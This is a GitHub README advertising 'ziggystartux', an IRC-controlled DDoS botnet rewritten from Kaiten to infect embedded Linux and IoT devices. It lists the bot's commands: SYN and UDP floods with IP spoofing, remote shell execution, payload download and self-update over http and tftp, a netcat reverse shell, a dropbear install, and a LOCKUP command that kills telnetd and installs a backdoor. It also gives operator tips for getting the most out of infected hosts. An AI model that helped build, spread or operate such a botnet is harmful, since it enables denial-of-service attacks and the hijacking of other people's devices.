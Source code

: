 # ziggystartux
A Kaiten rewrite, with much new functionality, and many fixes for the old stuff! Tailored toward embedded Linux devices, because... well, the internet of things of the new frontier!
<pre>

   oooooo  o                      .oPYo.  o             ooooo                 
      d'                         8       8               8                    
     d'  o8 .oPYo. .oPYo. o    o `Yooo. o8P.oPYo. oPYo.  8  o    o `o  o'     
    d'    8 8    8 8    8 8    8     `8  8 .oooo8 8  `'  8  8    8  `bd'      
   d'     8 8    8 8    8 8    8      8  8 8    8 8      8  8    8  d'`b      
  dooooo  8 `YooP8 `YooP8 `YooP8 `YooP'  8 `YooP8 8      8  `YooP' o'  `o     
 .......:..:....8 :....8 :....8 :.....::..:.....:..:::::..::.....:..:::..     
 ::::::::::::ooP'.::ooP'.::ooP'.:::::::::::::::::::::::::::::::::::::::::     
 ::::::::::::...::::...::::...:::::::::::::::::::::::::::::::::::::::::::     
  
  This is a remake of Kaiten, hacked together from various versions scattered 
  throughout cyberspace. New features include a variety of awesome shell one- 
  liners, ability to upgrade the bot over http (via gcc or static binary), a  
  feature called "HackPkg" that installs binaries without dependencies like   
  wget or tftp, and more! Tip: run GETBB <tftp ip> first to get the most out  
  of this bot (it will install to /var/bin, which is almost always writable). 
  The LOCKUP command will kill telnetd and run a backdoor of your choice (for 
  simplicity we assume you will run it on port 23). This bot is updated often,
  so check back frequently for new killer features and ddos tools. In memory  
  of David Bowie, because he was an awesome musician and passed during the    
  early development of this bot. By ShellzRuS and all the other developers    
  that have worked on Kaiten over the last 20 years.                          
                                                                              
         "Hacking on kaiten is a right of passage" --Kod                      
 
    This is a IRC based distributed denial of service client.  It connects to 
  the server specified below and accepts commands via the channel specified.  
  The syntax is:                                                              
        !<nick> <command>                                                     
  You send this message to the channel that is defined later in this code.    
  Where <nick> is the nickname of the client (which can include wildcards)    
  and the command is the command that should be sent.  For example, if you   
  want to tell all the clients with the nickname starting with N, to send you 
  the help message, you type in the channel:                                  
        !N HELP                                                              
  That will send you a list of all the commands.  You can also specify an     
  astrick alone to make all client do a specific command:                     
        ! SH uname -a                                                        
  There are a number of commands that can be sent to the client:              
        PAN <target> <port> <secs> - A SYN flooder                         
        UDP <target> <port> <secs> - An UDP flooder                        
        UNKNOWN <target> <secs> - Another non-spoof udp flooder         
        NICK <nick> - Changes the nick of the client  
        SERVER <server> - Changes servers              
        GETSPOOFS - Gets the current spoofing    
        SPOOFS <subnet> - Changes spoofing to a subnet          
        DISABLE - Disables all packeting from this bot  
        ENABLE - Enables all packeting from this bot   
        KILL - Kills Ziggy                           
        GET <http address> <save as> - Downloads a file off the web          
        VERSION - Requests version of bot               
        KILLALL - Kills all current packeting          
        HELP - Displays this                         
        IRC <command>  - Sends this command to the server      
        SH <command> - Executes a command                    
        ISH <command> - "Interactive" SH, send to channel
        BASH <command> - Run a bash command
        SHD <command> - Daemonize command                     
        UPDATE <http://server/bot> - Update this bot 
        HACKPKG <http://server/bin> - Install binary (no wget dependency)
        INSTALL <http://server/bin> - Install binary (via wget)             
        BINUPDATE <http://server/bin> - Update a binary (via wget)      
        SCAN <nmap opts> - Call an nmap wrapper script           
        GETSSH <http:serverdropbear> - Install dropbear, run on port 30022
        RSHELL <ip port> - Equates to nc ip port     
        GETBB <tftp server> - Get a proper busybox (via tftp) 
        LOCKUP <http://server/bin> - Kill telnet, install a backdoor!
                                                                              
  Remember, all these commands must be prefixed by a ! and the nickname that  
  you want the command to be sent to (can include wildcards). There are no    
  spaces in between the ! and the nickname, and there are no spaces before    
  the !                                                                       
                                                                              
                                - contem on efnet                             
</pre>

